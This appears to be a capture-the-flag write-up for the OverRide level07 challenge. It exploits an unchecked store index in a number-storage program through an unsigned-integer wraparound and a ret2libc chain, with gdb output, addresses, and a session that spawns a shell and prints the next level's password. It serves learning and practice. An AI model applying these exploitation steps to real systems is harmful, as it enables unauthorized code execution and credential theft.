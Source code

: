# Context

The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
    - numbers are stored at `index * 4`
    - `index % 3` must not be equal to 0
    - `number >> 24` must not be equal to 183 

* The program has been compiled with the `-fstack-protector` flag, meaning that the return address of the program is protected with a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries). 

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 

# lead

we are going to exploit the flaw in the store_number() function. Since we can write on the stack with the offset of our choice, we can change the address stored in EIP without overwriting the canary stack.

We could store a shellcode on the stack using the store_number() function, but it would be a bit tedious. Instead, we'll do a ret2libc attack, as we did for the level04.

# Exploit

1. First of all, let's find the address of the buffer. We know it is located at 0x24(%esp) in the main() function. Using gdb, we get the address of ESP (0xffffd520) and then calculate the effective address of the buffer: 0xffffd544.

2. We must then find the address of EIP in order to calculate its offset from the buffer. To do so, we just need to set a breakpoint anywhere in the main() function using gdb, and enter the command `ìnfo frame`. It is the address contained in EIP in the saved registers section that we want: 0xffffd70c. We just have to subtract this address from the buffer address to find the offset. Since we record unsigned int, we have to divide this value by 4 to find the right index. So we want to write from index 114.
```
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c
(gdb) p 0xffffd70c - 0xffffd544
$1 = 456
```

3. Here's a little issue: 114 is divisible by 3, so the program will prevent us from writing there. But fortunately for us, when an unsigned int overflows (values over 4294967295), it "wraps around". So UINT_MAX + 1 = 0, UINT_MAX + 2 = 1...
`(4294967295 + 1 + 456) / 4 = 1073741938` is not divisible by three, but will write exactly where we want to.

4. Finally, we can find the memory addresses of the system() and exit() functions, as well as the string "/bin/sh", as we did in level04:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

5. We can now record the decimal value of the system() address at index 1073741938, then the one for exit() at index 115 and finally the one for "/bin/sh" at index 116. Once this is done, a shell will be launched when we try to exit the program:

system()    0xf7e6aed0    4159090384
exit()      0xf7e5eb70    4159040368
"/bin/sh"   0xf7f897ec    4160264172

```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115   
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

We can now reach the next level with the command `su level08` and fill in the flag found as a password.